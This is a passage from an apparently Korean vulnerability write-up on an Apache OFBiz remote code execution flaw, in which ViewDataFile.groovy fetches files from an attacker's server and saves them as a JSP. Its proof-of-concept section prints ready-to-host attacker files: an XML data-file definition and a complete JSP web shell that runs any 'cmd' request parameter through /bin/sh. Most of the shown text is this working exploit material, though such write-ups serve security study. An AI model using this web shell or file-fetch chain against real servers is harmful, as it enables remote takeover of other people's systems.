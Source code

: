 
결과적으로 `ViewDataFile.groovy` 스크립트를 이용하면, 공격자의 외부 서버로부터 웹 쉘 코드가 담긴 CSV 파일(`DATAFILE_LOCATION`)과 데이터 정의 파일(`DEFINITION_LOCATION`)을 가져와서 Apache OFBiz 프레임워크 프로젝트에 JSP 파일(`DATAFILE_SAVE`)로 저장할 수 있게 됩니다.

이렇게 저장된 JSP 파일은 웹 서버에서 실행 가능한 상태가 되어 원격 코드 실행(RCE) 취약점으로 이어집니다. 이에 대한 내용은 아래 PoC 과정에서 다시 진행해보겠습니다.

# PoC

## 공격자 서버 준비

준비된 서버에 아래의 2개 파일을 저장합니다.

🔍 test.xml

```xml
<data-files xsi:noNamespaceSchemaLocation="http://ofbiz.apache.org/dtds/datafiles.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <data-file name="rce" separator-style="fixed-length" type-code="text" start-line="0" encoding-type="UTF-8">
      <record name="rceentry" limit="many">
          <field name="jsp" type="String" length="605" position="0"></field>
      </record>
  </data-file>
</data-files>
```

🔍 test.csv

```xml
<%@ page import='java.io.*' %><%@ page import='java.util.*' %><b>Exploit</b><br><% String getcmd = request.getParameter("cmd"); if (getcmd != null) { out.println("Command: " + getcmd + "<br>"); String cmd1 = "/bin/sh"; String cmd2 = "-c"; String cmd3 = getcmd; String[] cmd = new String[3]; cmd[0] = cmd1; cmd[1] = cmd2; cmd[2] = cmd3; Process p = Runtime.getRuntime().exec(cmd); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine();}} %>,
```

![images](./images/image-008.png)
